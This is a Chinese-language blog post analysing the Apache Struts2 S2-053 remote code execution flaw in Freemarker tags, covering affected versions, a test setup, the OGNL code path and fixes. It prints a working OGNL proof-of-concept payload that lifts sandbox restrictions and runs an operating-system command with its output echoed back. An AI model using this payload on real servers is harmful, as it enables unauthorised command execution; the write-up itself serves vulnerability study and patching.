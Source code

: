 ```yaml
---
layout:     post
title:      "Apache Struts2 Remote Code Execution (S2-053) "
date:       2017-09-15
categories: [Java, Code Audit]



---
```


### Versions Affected

```
Struts 2.0.1 - Struts 2.3.33, 
Struts 2.5 - Struts 2.5.10
```

### Description

> A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals
>
> When using expression literals or forcing expression in Freemarker tags (see example below) and using request values can lead to RCE attack.

```php+HTML
<@s.hidden name="redirectUri" value=redirectUri />

<@s.hidden name="redirectUri" value="${redirectUri}" />

<@s.hidden name="${redirectUri}"/>
```

根据官方表述该漏洞主要是Freemarker模板语言的一个特性，被开发人员错误利用导致因传入ognl表达式而造成RCE的风险，所以再结合官方给出的错误编码示例，很容易猜测到这个漏洞首先是一个安全编码导致的问题，而非struts2通杀漏洞，因此官方对该漏洞的风险定级为中危。

在java领域，表现层技术主要有三种：jsp、freemarker、velocity。Struts2使用FreeMarker作为其默认的模板引擎，FreeMarker负责将数据模型中的数据合并到模板中，从而生成标准输出，对于界面开发人员而言，他们只关心界面（也就是模板文件）的开发，而无需理会底层数据，而对于业务逻辑开发者，他们只需要关心负责将需要显示的数据填入数据模型即可，对于传统的jsp页面而言，FreeMarker是一个绝佳的替代方案。

### Vulnerability Environment

根据官方的漏洞表述，我们使用struts-2.5.10版本，写一个在FreeMarker中使用Struts2标签的ftl模板文件，功能比较简单获取name并输出

![freemarker-ftl](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-ftl.png)

在 Action 中，为了将name值传到以上的Freemarker 模板中，将name值绑定到相应的属性中即可， action 代码如下：

![freemarker-java](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-java.png)

这样一个漏洞环境就搭建好了，接下来就是进行漏洞测试和分析

### Vulnerability Analysis

漏洞利用很简单，提交`%{2*333}`观察返回name值，表达式被正确执行即可

![freemarker-page](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-page.png)

POC同s2-045就可以，带回显POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ipconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

我们知道在ftl模板里${···}本身就是ognl表达式，所以这个漏洞没有什么可以去分析的漏洞触发机制，不过作为struts2的ognl表达式执行漏洞学习案例还是不错的，很直接！

先看\org\apache\struts2\views\freemarker\ScopesHashModel.class，Struts2 Action get从前台获取到参数内容后，会先获得用户提交的参数名，然后从值栈（Value Stack）中找到符合参数值的内容（ognl），其中主要用到ValueStack的findValue方法

![s2-053-analysis1](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis1.png)

当action处理完成后，调用set方法。这里需要注意在Component类的copyParams方法，其中用到了setValue来处理，所以action的实例变量可以被OGNL访问

![s2-053-analysis2](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis2.png)

同样的在OgnlValueStack中的setValue再进行处理，继续跟进最后发现被OgnlUtil中的setValue来传递ognl表达式

最终ognl表达式被OgnlValueStack中的findValue所执行，因为POC不是以#开头，会把expr当做key值到contextMap中找，再次过程中ognl表达式被执行。

![s2-053-analysis3](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis3.png)

### Solution

首先你可以进行struts2版本升级，其中对freemarker配置中进行了更多的限制，其次本文开始就说了，这首先是一个安全编码的问题，正确的标签使用方法如下：

![solution](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-solution.png)







